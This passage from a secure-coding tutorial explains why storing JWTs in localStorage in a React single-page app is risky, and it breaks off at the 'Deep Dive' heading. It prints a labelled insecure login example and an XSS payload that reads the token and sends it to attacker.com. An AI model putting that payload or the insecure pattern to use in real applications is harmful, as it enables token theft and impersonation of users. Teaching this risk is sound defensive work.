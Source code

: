 ## Learning Objective

Implement a secure authentication flow in a React Single-Page Application (SPA), focusing on the best practices for token storage and session management.

## Why This Matters

How you handle authentication tokens is one of the most critical security decisions in your application. Storing them improperly can lead to token theft via XSS, allowing an attacker to completely impersonate your users. Getting this right is the foundation of a secure user session.

## Discovery Phase

A very common but **insecure** pattern you will see in many older tutorials is storing the JSON Web Token (JWT) in `localStorage` after a user logs in.

```javascript
// INSECURE PATTERN - DO NOT USE
async function handleLogin(credentials) {
  const response = await fetch("/api/login", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(credentials),
  });

  const { token } = await response.json();

  // PROBLEM: Storing the token in localStorage
  if (token) {
    localStorage.setItem("authToken", token);
    // Now the app is "logged in"
  }
}
```

The problem with this approach is that `localStorage` is accessible to _any_ JavaScript running on your page. If your application has a Cross-Site Scripting (XSS) vulnerability (see section 28.1), an attacker can inject a script as simple as this:

```javascript
// Malicious script injected via XSS
const stolenToken = localStorage.getItem("authToken");
fetch("https://attacker.com/steal-token", {
  method: "POST",
  body: stolenToken,
});
```

The attacker now has the user's token and can make authenticated API requests on their behalf until the token expires.

## Deep Dive
